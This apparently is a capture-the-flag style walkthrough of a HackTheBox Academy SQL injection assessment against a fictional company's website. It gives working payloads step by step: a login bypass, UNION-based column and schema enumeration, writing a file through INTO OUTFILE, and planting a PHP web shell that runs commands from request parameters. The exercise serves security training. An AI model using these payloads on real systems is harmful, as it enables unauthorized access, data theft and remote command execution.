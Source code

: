 The company `Inlanefreight` has contracted you to perform a web application assessment against one of their public-facing websites. 
* In light of a recent breach of one of their main competitors, they are particularly concerned with SQL injection vulnerabilities and the damage the discovery and successful exploitation of this attack could do to their public image and bottom line.

They provided a target IP address and no further information about their website. Perform a full assessment of the web application from a "grey box" approach, checking for the existence of SQL injection vulnerabilities.

admin' or '1'='1'-- -

- `or '1'='1'` is a condition that always evaluates to true.
- `-- -` comments out the rest of the query to bypass the password check.

'UNION SELECT 1-- -


The result is an error message **“The used SELECT statements have a different number of columns”** indicates that your SQL injection query failed because the number of columns in your injected `UNION SELECT` query doesn't match the number of columns returned by the original query.

Add columns to the`UNION SELECT` query until the error message disappears.

' UNION SELECT 1,2,3,4,5-- -

Now that you know the number of columns we can retrieve the version of the database by replacing one of the columns with `@@version`

Retrieve the **schema names** (databases) from the `**INFORMATION_SCHEMA.SCHEMATA**` table.

' UNION SELECT 1, schema_name, 3, 4, 5 FROM INFORMATION_SCHEMA.SCHEMATA--


Now crate SQL injection query that writes the text `'file written successfully!'` into a file located at `/var/www/html/dashboard/proof.txt` on the server.

' UNION SELECT 1, 'file written successfully!', 3, 4, 5 INTO OUTFILE '/var/www/html/dashboard/proof.txt' --


' UNION SELECT 1, 2, '<?php system($_REQUEST[0]); ?>', 4, 5 INTO OUTFILE '/var/www/html/dashboard/shell.php'-- -

https://iritt.medium.com/sql-injection-fundamentals-hackthebox-academy-walkthrough-160fa4a9d731